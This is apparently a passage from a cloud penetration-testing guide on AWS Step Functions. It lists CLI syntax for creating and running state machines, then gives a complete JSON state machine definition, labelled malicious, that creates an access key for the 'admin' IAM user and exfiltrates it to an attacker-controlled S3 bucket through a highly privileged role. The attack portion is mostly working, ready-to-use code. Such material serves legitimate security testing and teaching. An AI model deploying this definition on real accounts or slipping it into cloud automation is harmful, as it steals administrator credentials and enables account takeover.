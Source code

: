 ```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```

The following examples show how to create an state machine that creates an access key for the **`admin`** user and exfiltrates this access key to an attacker-controlled S3 bucket, leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state machine to perform the **`iam:CreateAccessKey`** & **`s3:putObject`** actions.

- **stateMachineDefinition.json**:

```json
{
  "Comment": "Malicious state machine to create IAM access key and upload to S3",
  "StartAt": "CreateAccessKey",
  "States": {
    "CreateAccessKey": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
      "Parameters": {
        "UserName": "admin"
      },
      "ResultPath": "$.AccessKeyResult",
      "Next": "PrepareS3PutObject"
    },
    "PrepareS3PutObject": {
      "Type": "Pass",
      "Parameters": {
        "Body.$": "$.AccessKeyResult.AccessKey",
        "Bucket": "attacker-controlled-S3-bucket",
        "Key": "AccessKey.json"
      },
      "ResultPath": "$.S3PutObjectParams",
      "Next": "PutObject"
    },
    "PutObject": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:s3:putObject",
      "Parameters": {
        "Body.$": "$.S3PutObjectParams.Body",
        "Bucket.$": "$.S3PutObjectParams.Bucket",
        "Key.$": "$.S3PutObjectParams.Key"
      },
      "End": true
    }
  }
}
```
